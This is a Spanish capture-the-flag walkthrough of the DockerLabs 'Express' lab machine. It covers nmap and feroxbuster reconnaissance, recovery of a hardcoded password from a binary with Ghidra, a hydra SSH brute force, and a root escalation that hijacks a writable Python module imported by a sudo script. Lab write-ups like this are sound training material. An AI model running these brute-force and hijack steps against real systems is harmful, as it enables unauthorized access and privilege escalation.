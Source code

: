 Máquina **Express** de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![Express](images/express/express.png)

# Reconocimiento

Comenzaremos con un escaneo de `nmap`:

```css
nmap -p- --open --min-rate 5000 -sSVC -Pn -n -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Sat Jan 11 10:06:20 2025 as: nmap -p- --open --min-rate 5000 -sSVC -Pn -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2025-01-11 10:06:20 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7a:88:11:76:1d:4b:b3:31:95:6d:90:86:87:ef:3b:96 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMuWxF0RriwYfieEQn+T9SZlrcxMgBg2H+SpTnxQFFjaNRhBebDOM/cYccPO8bxLoK7HxJm4+t8xYp3TCMcct1g=
|   256 26:f9:fb:7a:c7:be:cf:da:99:39:18:f5:bd:56:d5:a3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILUhTh8Y0DHstccxORIRDezgqBRJkdJ/BIt2hTRPsA1z
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Mi Empresa - Soluciones Innovadoras
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 11 10:06:28 2025 -- 1 IP address (1 host up) scanned in 8.53 seconds
```

Tenemos 2 puertos abiertos:

•`Puerto 22: OpenSSH 9.6p1 Ubuntu`

•`Puerto 80: Apache httpd 2.4.58`

### Puerto 80

Al entrar en la web no veo nada interesante por lo que paso directamente a hacer fuzzing con `feroxbuster`:

```css
feroxbuster -u "http://172.17.0.2/" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

luego de esperar un rato, pruebo en poner el dominio "express.dl" en el `/etc/hosts` y encuentro una página distinta.

Al realizar fuzzing, encuentro una carpeta llamada "binary", la cual contiene un binario llamado "game", este me lo descargo y veo que es un ejecutable de 64 bites.

### Ingeniería inversa

En esta parte, decido depurar el binario usando `ghidra`, y veo que en la función main hace 100 preguntas sobre un numero aleatorio, y a este lo genera usando una semilla basada en tiempo. En este punto podriamos hacer 2 cosas:

```css
1. Crear un exploit que adivine todos los numeros
2. Revisar la función "hidden_key" que se encuentra en la función main para encontrar una posible contraseña
```

en mi caso hice las 2 xD pero solo voy a mostrar la 2, ya que es lo mas sencillo.

Cuando estemos en la función hidden_key, veremos lo siguiente:

![Key](images/express/key.png)

como vemos en "local_28", "local_20", etc. Estas variables contienen la contraseña al inverso, por lo que luego de extraer el texto de todas, me encuentro con la siguiente contraseña:

```css
P@ssw0rd!#--025163fhusGNFE
```

# Intrusión

Ahora solo nos quedaría usar `hydra` para intentar adivinar el usuario:

```css
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p 'P@ssw0rd!#--025163fhusGNFE' 172.17.0.2 ssh
```

![User](images/express/hydra.png)

ya tenemos credenciales.

# Escalada De Privilegios

### Admin

Si ejecutamos `sudo -l`, veremos que podemos ejecutar como cualquier usuario (incluyendo root) un script de python, el cual no tiene una función muy interesante pero importa varias cosas, por lo que por ahi podríamos intentar escalar. Luego de revisar cada uno:

```css
admin@dockerlabs:/opt$ ls -l /usr/lib/python3.12/os.py
-rw-r--r-- 1 root root 39786 Nov  6 19:32 /usr/lib/python3.12/os.py
admin@dockerlabs:/opt$ ls -l /usr/lib/python3.12/random.py
-rw-r--r-- 1 root root 34683 Nov  6 19:32 /usr/lib/python3.12/random.py
admin@dockerlabs:/opt$ ls -l /usr/lib/python3.12/pytest.py
-rwxrwxr-x 1 root admin 1 Jan 10 17:08 /usr/lib/python3.12/pytest.py
admin@dockerlabs:/opt$ 
```

veo que "pytest.py" tenemos permisos de escritura, ya que estamos en su grupo, por lo lo editaremos con nano poniendo el siguiente contenido:

```python
import os
os.system("/bin/bash")
```

luego ejecutamos el script

```css
sudo python3 /opt/script.py
```

y ya seremos root.

### Root

![Root](images/express/root.png)

Gracias por leer ;)
